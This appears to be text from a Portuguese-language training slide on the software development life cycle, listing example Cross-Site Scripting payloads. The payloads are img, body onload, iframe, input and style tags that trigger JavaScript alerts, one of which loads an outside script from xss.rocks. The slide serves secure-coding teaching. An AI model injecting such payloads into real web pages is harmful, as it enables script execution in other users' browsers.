

Software Development Life Cycle
Cross-Site Scripting

Exemplo de PAYLOAD’s
<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC=/onerror="alert(String.fromCharCode(88,83,83))"></img>

 <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<iframe src=http://xss.rocks/scriptlet.html<

<INPUT TYPE="IMAGE” SRC="javascript:alert('XSS');">

<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><CLASS=XSS></A>